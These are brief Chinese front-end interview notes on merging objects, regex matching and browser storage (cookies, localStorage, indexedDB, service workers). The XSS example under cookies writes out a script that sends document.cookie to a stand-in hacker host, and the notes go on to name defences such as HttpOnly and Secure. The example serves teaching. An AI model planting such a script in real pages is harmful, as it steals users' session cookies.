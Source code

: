 - 如何合并多个对象?
    Object.assign({}, obj1, obj2)
- 如何查找字符串中指定的某一部分
    1. 定义一个正则 /[a-z]{3,6}/ig
    2. test
- 在浏览器如何缓存数据?
    - cookie 4KB 每次都会带上 影响http性能  
        XSS 跨站脚本攻击
        <script>
            fetch('http://www.heike.com?cookie='+document.cookie)
        <script>
        HttpOnly 不能有js带上cookie
        - 更安全？
            https  
            Secure 安全 非HTTPS链接发送cookie  
            签名  
    - localStorage/sessionStorage 5MB  
    - indexedDB 前端数据库 更大 支持复杂操作 事务  
    - Service worker 离线存储 不联网也能打开  